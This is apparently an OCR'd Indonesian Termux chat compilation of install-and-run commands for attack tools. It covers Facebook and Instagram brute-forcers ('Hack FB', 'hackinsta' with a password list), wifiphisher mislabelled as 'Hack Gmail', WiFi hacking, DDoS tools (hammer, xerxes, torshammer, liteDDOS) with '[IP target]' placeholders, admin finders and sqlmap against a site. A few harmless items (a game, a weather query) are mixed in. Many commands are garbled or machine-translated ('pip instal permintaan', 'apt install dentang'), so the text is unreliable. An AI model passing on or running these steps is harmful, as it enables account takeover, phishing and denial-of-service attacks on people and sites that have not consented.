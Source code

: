 ====================== 27.HACK GMAIL apt-get update &&apt-get upgrade apt-get install git apt-get install python python-pip python-setuptools pip install scapy git clonehttps://github.com/wifiphisher/wifiphisher.git cd wifiphisher< setup python.py instal cd wifiphisher python wifiphisher ========================= ==== 28.BERMAIN MOON-BUGGY pkg install moon-buggy moon-buggy ============================= 29.PERKIRAAN CUACA curl http://wttr.in/ (lokasi) ============================= 30.BROWSING DI TERMUX pkg install w3m w3m www.google.com Linknya bsa diubah ============================= [8/10 19.49] Yovis Si Wibub: Apt update Apt upgrade Apt install mechanize Apt install git git clone http://github.com/hnov7/mbfcd mbf python2 mbf. py Mbf tanpa nama pengguna dan kata sandi. Jdi tinggl bikin aja [8/10 19.49] Yovis Si Wibub : --------------------------TOTUR MBF--------- ---------------$ pkg update && pkg upgrade $ pkg install python2 $ pip2 install mechanize ‌$ git clone https://github.com/pirmansx/mbf Cara berlarinya : $ ls $ cd mbf $ python2 mbf.py [9/10 17.25] ‌ ~ i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟: memper cikant/melihat v.android termux $ pkg instal $ cd ../usr/etc $ nano bash.bashrc cowsay -f mata Cyber ​​| lolcat toilet -f standard Indonesia -F gay neofetch date | lolcat ✓ Hack FB rombongan $ apt update && apt upgrade $ pkg install python2 git $ pip2 install mechanize $ git clonehttp://github.com/pirmansx/mbf $ ls $ cd mbf $ python2 MBF.py ✓ Hack FB ngincer $ Apt update ( Enter ) $ Apt upgrade ( Enter ) $ Apt install python2 ( Enter ) $ pip2 install urllib3 chardet certifi idna request ( Enter ) $ apt install openssl curl ( Enter ) $ pkg install libcurl ( Enter ) $ ln /sdcard ( Enter ) $ cd /sdcard ( Enter ) $ python2 fbbrute.py ( Enter ) ✓ Hack Gmail apt-get update && apt-get upgrade $ apt-get install git $ apt-get install python python-pip python-setuptools $ pip install scapy $ git clone https://github.com/wifiphisher/wifiphisher.git $ cd wifiphisher< $ setup python. py install $ cd wifiphisher $ python wifiphisher Nih yang mau hack WiFi Khusus root $apt update $apt upgrade $apt install git $git clone https://github.com/esc0rtd3w/wifi-hacker$ls $cd ‌Ni KUMPULAN TUTOR TERMUX [X SCREW UP X] HACK INSTAGRAM (rekayasa sosial) $ apt update && apt upgrade $ pkg install python $ pkg install git $ pkg install nano $ git clone https://github.com/avramit /instahack.git $ ls $ cd instahack $ ls $ pip instal permintaan $ cd instahack $ nano pass.txt $ cat pass.txt $ ls $ python hackinsta.py Localizar ip Apt instal python git git clone https://github.com /maldevel/IPGeoLocation.git cd IPGeoLocation chmod +x ipgeoLocation.py pip install -r requirements.txt python ipgeolocation.py -m python ipgeolocation.py -t http://www.google.com Lacak IP git clone https:// github.com/maldevel/IPGeolocationcd IPGeolocation chmod +x ipgeolocation.py pip install -r requirements.txt python ipgeolocation.py -m python ipgeolocation.py -t IP yang ingin pengamanan TOOL DDOS VIA TERMUX 1. Hammer $ pkg update (tekan enter) $ pkg upgrade (tekan enter) $ pkg install python (tekan enter) $ pkg install git (tekan enter) $ git clone https://github.com/cyweb/hammer (tekan enter) $ cd hammer (tekan enter) $ python hammer.py (tekan enter) $ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter) 2. Xerxes $ apt install git $ apt install dentang $ git clone https://github.com/zanyarjamal/xerxes $ ls $ cd xerxes $ ls $ dentang xerxes.c -o xerxes $ ls $ ./xerxes (nama situs web) 80 3. Pembaruan Torshammer $ pkg $ pkg install git $ apt install tor $ pkg install python2 $ git clonehttps://github.com/dotfighter/torshammer.git $ ls $ cd torshammer $ python2 torshammer.py 4. liteDDOS $ pembaruan apt $ peningkatan apt $ pkg instal git $ pkg instal python2 $ git clone https://github.com /4L13199/LITEDDOS $ cd LITEDDOS $ python2 liteDDOS.py alat RED_HAWK $ pembaruan apt $ apt install git $ git clone https://github.com/Tuhinshubhra/RED_HAWK $ cd RED_HAWK $ chmod +x rhawk.php $ apt install php $ ls $ php rhawk.php Install webdav ‌ $ apt update && upgrade $ apt install python2 $ pip2 install urllib3 chardet certifi idna request $ apt install openssl curl $ pkg install libcurl $ ln -s /sdcard $ cd sdcard $ mkdir webdav $ cd webdav ‌Tutorial Instal Alat-B4J1N64Nv5pkg instal pembaruan pkg instal git pkg instal toilet pkg instal figlet pip2 instal lolcat git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5 cd B4J1N64Nv5 sh B4J1N64N.sh ‌cara menginstal termux ubuntu - pembaruan apt/pembaruan pkg - peningkatan apt/peningkatan pkg - pkg instal git - pkg instal proot - pkg instal wget - git clone https://github.com/Neo-Oli/termux-ubuntu - cd termux-ubuntu - chmod +x ubuntu.sh - pip install -r requirements.txt - ./ubuntu.sh Untuk menjalankan - ./start.sh Cara install github tembak XL Dari awal 1.pkg upgrade 2.pkg update 3.pkg install git 4.pkg install python 5.git clone https://github.com /albertoanggi/xl-py 6.pip install -r requirements.txt 7.chmod +x app.py 8.python/python2 app.py Instal admin finder di termux$ apt update && apt upgrade $ pkg install python2 $ pkg install git $ git clone https://github.com/AdheBolo/AdminFinder garis $ ls $ cd AdminFinder $ chmod 777 AdminFinder.py $ python2 AdminFinder.py Cara install tool Mr. Rv1.1 $apt update && apt upgrade $pkg install git $pkg install gem $pkg install figlet $gem install lolcat $git clone https://github.com/Mr-R225/Mr.Rv1.1 $cd Mr.Rv1 .1 $sh Mr.Rv1.1.sh alat instal $ apt update && apt upgrade $ apt install git $ git clone https://github.com/aryanrtm/4wsectools cd 4wsectools chmod 777 alat ./tools ALAT FSOCIETY $ git clone https://github.com/manisso/fsociety$ cd fsociety $ ./install.sh $ ls $ python2 fsociety.py SQLMAP apt update apt install python apt install python2 apt install git git clone https://github.com/sqlmapproject/sqlmap https://github.com/sqlmapproject /sqlmap.git cd sqlmap Python2 sqlmap.py Contoh Python2 sqlmap.py -u situs
